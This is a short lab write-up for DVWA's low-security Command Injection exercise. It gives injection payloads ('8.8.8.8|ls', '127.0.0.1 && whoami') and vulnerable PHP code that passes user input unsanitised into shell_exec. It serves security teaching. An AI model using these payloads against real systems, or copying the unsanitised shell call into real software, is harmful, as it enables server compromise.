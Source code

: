 # Command Injection - Low 

## Attack Steps 

1. Navigate to the DVWA Command Injection page:
    
    - http://<ip address>/dvwa/vulnerabilities/exec
 
2. In the input field, enter the following payload:  

    ```bash
    8.8.8.8|ls
    ```


3. Click the **Submit** button.

4. The output should display the ping results followed by the directory listing from the server, for example:  

    ```bash 
    help
    index.php
    source
    ```



## Vulnerable Code Analysis

### File: `[RELATIVE FILE PATH]`

#### Key Vulnerability Points:

```php
 <?php

if( isset( $_POST[ 'submit' ] ) ) {

    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if (stristr(php_uname('s'), 'Windows NT')) { 
    
        $cmd = shell_exec( 'ping  ' . $target );
        echo '<pre>'.$cmd.'</pre>';
        
    } else { 
    
        $cmd = shell_exec( 'ping  -c 3 ' . $target );
        echo '<pre>'.$cmd.'</pre>';
        
    }
    
}
?> 
```

### Explanation
- The code takes direct user input `$target = $_REQUEST['ip'];` and passes it straight into a shell command without any validation or sanitisation.  
- The value of `$target` is concatenated into the `ping` command string inside `shell_exec()`, e.g.:  
    ```php
    shell_exec('ping -c 3 ' . $target);
    ```  
- This can be exploited using a payload such as:  
    ```
    127.0.0.1 && whoami
    ```  
    - The command executed by the server becomes:  
      ```
      ping -c 3 127.0.0.1 && whoami
      ```  
    - After the ping runs, `whoami` will also execute, revealing the username of the process running PHP.  
- Causes:  
    - No input validation or sanitisation on `$target`, so arbitrary commands can be injected.  
    - Direct insertion of user input into a shell command allows attackers to append extra commands using operators like `&&`, `;`, or `|`.  
    - Not using safe functions like `escapeshellarg()` or input whitelisting means special characters are interpreted by the shell.  
